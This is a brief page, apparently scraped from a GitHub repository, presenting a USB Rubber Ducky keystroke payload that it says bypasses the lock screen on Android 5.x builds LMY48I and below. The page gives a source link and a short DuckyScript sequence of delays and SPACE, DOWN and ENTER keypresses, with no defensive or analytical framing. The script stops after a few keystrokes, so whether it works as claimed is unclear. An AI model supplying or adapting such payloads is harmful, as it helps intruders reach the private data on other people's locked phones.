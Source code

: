 USB Rubber ducky payload to bypass lock-screen on 5.x build (LMY48I) and below.
Source: https://github.com/aluech/Android-USB-Rubber-Duck

`DELAY 5000`
`SPACE`
`DELAY 500`
`SPACE`
`DELAY 500`
`DOWN`
`DELAY 500`
`ENTER`
`DELAY 2000`